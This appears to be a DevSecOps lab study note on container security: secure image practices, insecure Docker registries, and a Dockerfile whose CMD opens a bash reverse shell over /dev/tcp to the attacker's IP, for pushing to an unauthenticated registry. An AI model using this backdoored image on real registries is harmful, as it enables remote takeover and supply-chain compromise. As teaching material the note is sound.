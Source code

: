 # Attacking Containers and Containerized Apps

### Building Secure Container Images
• Choose smaller Base Images. \
• Lint Dockerfile and follow best practices to catch any issues \
• Centos, Debian or Ubuntu can't be avoided for special cases like ELK\
• Use Distroless Docker images:
1. Contains only application and its runtime dependencies without the bloat (package managers, shells etc.,).
2. Also reduces supply chain attacks using cosign

We can search for official images using the “is-official=true” filter on the docker hub. \
``docker search --filter=is-official=true nginx``

You can check the history of an image using the following command to see what commands were used during the image creation. \
``docker history --no-trunc -H --format="{{.CreatedAt}} | {{.CreatedBy}}" hysnsec/django.nv``

> ClamAV can be used to scan containers for malware and vulnerabilities.


### Insecure Docker Registry

``docker run -d --name registry -p 80:5000 --restart=always registry:2.7.1``

Unless explicitly configured, public registries does not need authentication using the ***docker login*** command.

```
***Remember***
Organizations must be careful in managing their container images, as they may contain vulnerabilities or be infected with malware.
An unauthorized user with access to push, pull or update container images can cause severe damage by introducing malicious images or stealing sensitive data using reverse engineering.
Performing any unauthorized actions on the container registry can lead to a supply chain attack, a type of cyberattack where an attacker targets a software vendor’s third-party suppliers, compromising their platform or software and granting access to the vendor’s network, thus exploiting any weakness in their security measures.
```

***Payload to gain reverse shell access*** \
``export IP_ADDR=$(ifconfig eth0 | awk 'NR==2 {print $2}')``
```
cat > Dockerfile <<EOF
FROM devsecops-box-1i63nn7i.lab.practical-devsecops.training/django.nv

CMD ["/bin/bash", "-c", "bash -i >& /dev/tcp/$IP_ADDR/8484 0>&1"]
EOF

```

List all images in the registry. \
``curl https://devsecops-box-1i63nn7i.lab.practical-devsecops.training/v2/_catalog`` 
